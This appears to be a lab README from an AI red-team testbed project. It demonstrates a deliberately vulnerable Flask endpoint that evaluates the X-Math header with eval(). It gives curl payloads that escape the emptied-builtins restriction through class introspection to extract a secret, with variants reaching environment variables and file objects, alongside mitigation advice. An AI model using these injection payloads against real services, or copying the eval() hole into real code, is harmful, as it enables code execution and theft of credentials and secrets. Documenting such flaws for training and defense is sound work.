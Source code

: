 # Finding 1: Flask eval() Vulnerability Demonstration

## Overview

This directory contains a vulnerable Flask web server that demonstrates a critical code injection vulnerability through Python's `eval()` function. The server appears to have restricted the `eval()` context by emptying `__builtins__`, but this restriction can be bypassed using Python's class introspection capabilities.

**⚠️ SECURITY NOTICE**: This is for **DEFENSIVE SECURITY TESTING ONLY**. This demonstration is designed for educational purposes and to improve AI safety by identifying dangerous code patterns.

## Prerequisites & Setup

1. Navigate to the **top-level project folder** (red-team-testbed-for-gpt-oss)
2. Ensure all dependencies are installed:
   ```bash
   uv sync
   ```

## Running the Vulnerable Server

From the top-level project directory, start the server using:

```bash
uv run python doc/finding_1/server.py
```

The server will start on port 8000 and display:
```
* Running on http://127.0.0.1:8000
* Running on http://192.168.1.4:8000
```

## Server Endpoints

The Flask server provides several endpoints:

- `GET /health` - Health check endpoint
- `GET /random` - Returns a random number
- `GET /concat-reverse?s1=hello&s2=world` - Concatenates and reverses two strings
- `GET /` - **VULNERABLE ENDPOINT** - Processes X-Math header with eval()

## The Vulnerability

The root endpoint (`/`) contains a dangerous "easter egg" that evaluates Python expressions passed in the `X-Math` HTTP header:

```python
expr = request.headers.get("X-Math")
if expr is not None:
    try:
        result = eval(expr, {"__builtins__": {}})
        resp.headers["X-Math"] = str(result)
    except Exception:
        resp.status_code = 400
```

While the code attempts to restrict access by emptying `__builtins__`, this can be bypassed using Python's class introspection.

## Exploitation Steps

### Step 1: Test Basic Math

First, verify the eval() functionality works:

```bash
curl -H "X-Math: 2+2" http://localhost:8000
```

**Expected Response**: `X-Math: 4` in the response headers.

### Step 2: Discover Available Classes

Use Python's class introspection to list all available classes:

```bash
curl -v -H "X-Math: (1).__class__.__mro__[1].__subclasses__()" http://localhost:8000
```

This returns a massive list of all Python classes available in the runtime, including `<class '__main__.Config'>`.

### Step 3: Access the Config Class

Filter the subclasses to find our target Config class:

```bash
curl -v -H "X-Math: [x for x in (1).__class__.__mro__[1].__subclasses__() if x.__name__ == 'Config'][0]" http://localhost:8000
```

**Expected Response**: `X-Math: <class '__main__.Config'>`

### Step 4: Extract the Secret

Access the Auth attribute from the Config class:

```bash
curl -v -H "X-Math: [x for x in (1).__class__.__mro__[1].__subclasses__() if x.__name__ == 'Config'][0].Auth" http://localhost:8000
```

**🎯 SUCCESS**: `X-Math: TOP_SECRET`

## Technical Explanation

### The Attack Chain

1. **Class Introspection**: `(1).__class__` gets the `int` class
2. **Method Resolution Order**: `.__mro__[1]` gets the `object` base class  
3. **Subclass Discovery**: `.__subclasses__()` lists all classes inheriting from `object`
4. **Filter Target**: Find the `Config` class by name
5. **Attribute Access**: Directly access `Config.Auth` to extract the secret

### Why __builtins__ Restriction Failed

The `{"__builtins__": {}}` restriction only prevents direct access to built-in functions like `open()`, `exec()`, etc. However, it doesn't prevent:

- Access to existing objects in the current namespace
- Python's fundamental object introspection capabilities
- Class attribute access
- Method calls on existing objects

### The Global Config Object

The server defines a global configuration object:

```python
class Config:
    Auth = 'TOP_SECRET'

config = Config()
```

This object becomes accessible through Python's class system, even with restricted builtins.

## Security Implications

### Why This Is Dangerous

1. **Code Injection**: Arbitrary Python code execution
2. **Information Disclosure**: Access to sensitive application data
3. **Privilege Escalation**: Potential access to system resources
4. **Data Exfiltration**: Ability to extract secrets and configuration

### Real-World Impact

In production environments, this vulnerability could lead to:

- Database credential theft
- API key extraction  
- Session token compromise
- Internal system access
- Complete application takeover

### Mitigation Strategies

1. **Never use eval() with user input** - Use safer alternatives like `ast.literal_eval()` for literals
2. **Input validation** - Strictly validate and sanitize all user input
3. **Sandboxing** - If evaluation is absolutely necessary, use proper sandboxing solutions
4. **Principle of least privilege** - Don't store secrets in global variables
5. **Code review** - Regular security audits to identify dangerous patterns

## Example Attack Variations

### Access Environment Variables
```bash
curl -H "X-Math: [x for x in (1).__class__.__mro__[1].__subclasses__() if 'os' in x.__module__][0]._os.environ" http://localhost:8000
```

### File System Access (if available)
```bash  
curl -H "X-Math: [x for x in (1).__class__.__mro__[1].__subclasses__() if x.__name__ == 'TextIOWrapper'][0]" http://localhost:8000
```

## Cleanup

To stop the server, press `Ctrl+C` in the terminal where it's running.

## Disclaimer

**This demonstration is for DEFENSIVE SECURITY PURPOSES ONLY**:

- ✅ Educational security research
- ✅ Vulnerability identification training
- ✅ AI safety improvement
- ✅ Defensive security testing

- ❌ Unauthorized access to systems
- ❌ Malicious exploitation
- ❌ Production use

Understanding these vulnerabilities helps developers write more secure code and helps security professionals identify similar issues in real applications.

---

**For more information about the red team testbed project, see the main README.md in the project root.**